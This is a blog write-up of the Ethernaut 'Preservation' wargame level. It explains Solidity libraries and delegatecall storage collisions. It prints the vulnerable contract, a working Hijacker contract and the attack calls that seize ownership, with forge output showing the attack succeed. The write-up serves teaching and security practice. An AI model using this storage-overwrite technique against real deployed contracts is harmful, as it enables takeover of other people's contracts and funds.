 ###########################
Ethernaut 16: Preservation
###########################
:date: 2023-09-17
:slug: ethernaut-16-preservation
:summary: What even *is* a library?
:tags: programming
:author: capu
:featured_image:

Objective
=========
Become the contract owner

Code
====

.. code-block:: solidity
    :linenos: inline
    :hl_lines: 6

    contract Preservation {
        // public library contracts
        address public timeZone1Library;
        address public timeZone2Library;
        address public owner;
        uint256 storedTime;
        // Sets the function signature for delegatecall
        bytes4 constant setTimeSignature = bytes4(
            keccak256("setTime(uint256)")
        );

        constructor(
            address _timeZone1LibraryAddress,
            address _timeZone2LibraryAddress
        ) {
            timeZone1Library = _timeZone1LibraryAddress;
            timeZone2Library = _timeZone2LibraryAddress;
            owner = msg.sender;
        }

        // set the time for timezone 1
        function setFirstTime(uint256 _timeStamp) public {
            timeZone1Library.delegatecall(
                abi.encodePacked(setTimeSignature, _timeStamp)
            );
        }

        // set the time for timezone 2
        function setSecondTime(uint256 _timeStamp) public {
            timeZone2Library.delegatecall(
                abi.encodePacked(setTimeSignature, _timeStamp)
            );
        }
    }

    // Simple library contract to set the time
    contract LibraryContract {
        // stores a timestamp
        uint256 storedTime;

        function setTime(uint256 _time) public {
            storedTime = _time;
        }
    }

the level factory creates two instances of the ``LibraryContract`` and passes
them as constructor parameters.

Solution
========
there are two big smells with this one

- the library contract is, well, not a library. It uses the ``contract`` keyword
  and has a state of its own.
- the delegatecall'd contract doesn't have the same storage layout as the caller.

Hold on, what actually *is* a library?
--------------------------------------

    A library is a piece of code, usually implemented by someone else, exposing
    a programatical interface which runs in the same environment as the rest of
    *your* code and solves a particular problem

    > My abstractooor roomate

A point of contempt with this definition is wether a library can have *state* of
its own, that is, if it can store some information within itself, and
potentially use it to not be idempotent (having two identical calls cause
different effects).

Solidity thankfully allows us to defenestrate that point of nuance, and has a
much more concrete definition of library:

    Libraries are similar to contracts, but their purpose is that they are
    deployed only once at a specific address and their code is reused using the
    DELEGATECALL (CALLCODE until Homestead) feature of the EVM. This means that
    if library functions are called, their code is executed in the context of
    the calling contract [...] libraries are assumed to be stateless.

For layman implementors, this has a few consequences:

- If defining libraries with Solidity's ``library`` keyworkds and regular
  (or ``using..for``) calling syntax, I'll be spared the details, since
  it's a compile error to even define a non-constant state field in a library.
- If I want to use delegatecall manually, I will **not** have the same
  behaviour, nor the same safeguards, as above out of the box.

The contracts for this level try to do the latter without care for how
``DELEGATECALL`` actually works, ``delegatecall`` ing a contract that behaves as
it had a state of its own, when it actually is using the state of the calling
contract.

Concretely, the ``LibraryContract`` will set the first word of storage 
word of the Preservation storage to whatever I want, and what can I find
there?

.. code-block:: plain

    [I] > forge inspect --pretty  Preservation storageLayout
    | Name             | Type    | Slot | Offset | Bytes |
    |------------------|---------|------|--------|-------|
    | timeZone1Library | address | 0    | 0      | 20    |
    | timeZone2Library | address | 1    | 0      | 20    |
    | owner            | address | 2    | 0      | 20    |
    | storedTime       | uint256 | 3    | 0      | 32    |

... not the owner, sadly, but the first 20 bytes of the first word of storage is
where the ``timeZone1Library`` is stored. I can:

1. set it to some other ``Hijacker`` contract
2. call ``setFirstTime`` on the ``Preservation`` contract
3. ``Preservation`` will ``delegatecall``  to the the ``Hijacker``
4. this ``Hijacker`` will set the third storage slot to the attacker address.

The ``setFirstTime`` function takes a uint256 and not an ``address``, so I'll
have to do a bit of memory shuffling to get it just right:

.. code-block:: solidity
   :linenos: inline

    Hijacker hijacker = new Hijacker(attacker);
    uint256 spookyTimestamp = uint256(uint160(address(hijacker)));
    target.setFirstTime(spookyTimestamp);
    target.setFirstTime(0);

Awesome. But how should the ``Hijacker`` look like?

From above, I know the owner is in storage slot 3. So I should craft a contract
that writes to the third storage slot when a ``setTime(uint256)`` is called on
it:

.. code-block:: solidity
    :linenos: inline

    contract Hijacker {
        address private padding1;
        address private padding2;
        address private owner;
        address immutable private newOwner;

        constructor(address newOwner_){
            newOwner = newOwner_;
        }

        function setTime(uint256) public {
            owner = newOwner;
        }
    }

... let's check the storage layout:

.. code-block:: plain

    [I] > forge inspect --pretty  Hijacker storageLayout
    | Name     | Type    | Slot | Offset | Bytes |
    |----------|---------|------|--------|-------|
    | padding1 | address | 0    | 0      | 20    |
    | padding2 | address | 1    | 0      | 20    |
    | owner    | address | 2    | 0      | 20    |

... and run the thing:

.. code-block:: plain

    [I] > forge test --mc Preservation
    [⠊] Compiling...
    [⠆] Compiling 1 files with 0.8.21
    Running 1 test for test/16-Preservation.t.sol:PreservationSolution
    [PASS] testSolution() (gas: 2273944)
    Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 922.32µs
    Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)

😎
